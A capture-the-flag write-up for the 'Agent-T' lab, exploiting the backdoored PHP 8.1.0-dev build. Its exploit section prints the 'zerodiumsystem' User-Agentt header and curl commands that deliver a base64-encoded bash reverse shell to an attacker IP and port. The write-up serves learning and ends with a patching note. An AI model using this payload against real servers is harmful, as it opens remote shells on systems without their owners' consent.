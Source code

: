 # Agent-T Writeup

Name: Agent-T
Date:  09/01/2023
Description: Something seems a little off with the server.
Better Description: Backdoor o'clock
Difficulty:  Easy
Goals:  
- Quick B2R as I going loads of everything else today.
Learnt:
- Supply Chain attacks are pretty awesome
Beyond Root:
- Patch it

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](TryHackMe/Markdown/Agent-T/Screenshots/ping.png)

![](nmapscan.png)

## Exploit

Nmap discovery script found 8.1.0-dev in the header information. 
![](php8-1-0dev.png)
8.1.0-dev was victim to a supply-chain attack and a backdoor was place when using the header to run arbituary PHP code:
```php
// everything after the system will be executed as a php system command 
"User-Agentt": "zerodiumsystem('" + cmd + "');"
```

For a good 16 minute video by [John Hammond](https://www.youtube.com/watch?v=j-wmhJ8u5Ws) and the [Github](https://github.com/flast101/php-8.1.0-dev-backdoor-rce)

For some reason this should work, but I thought I forgot escape quotations and I am leaving this here as a reminder and testiment to handling quotes workflow. Although actually it is `('"<cmd>"')` reading issue I had.
```bash
# create the variable to be copy and paste lazy 
base64encodedpayload=$(echo "/bin/bash -c 'exec bash -i &>/dev/tcp/$ip/1337 <&1'" | base64 -w0)
curl http://10.10.129.151  -H 'User-Agentt: zerodiumsystem("echo $base64encodedpayload | base64 -d | bash");' -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
```

Regardless

```bash
curl http://10.10.129.151  -H "User-Agentt: zerodiumsystem('echo $base64encodedpayload | base64 -d | bash');" -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0'
```

## Foothold && PrivEsc

And we are Root
![](root.png)

## Beyond Root

This box was very easy, but I want to practice and showcase patching this. Also I want to try manual without lookup finding the code and patching it. We are also ina docker container so I could try a container escape.
![](weareinadockercontainer.png)

Patching - downgrade to 8.0 or upgrade to a later version
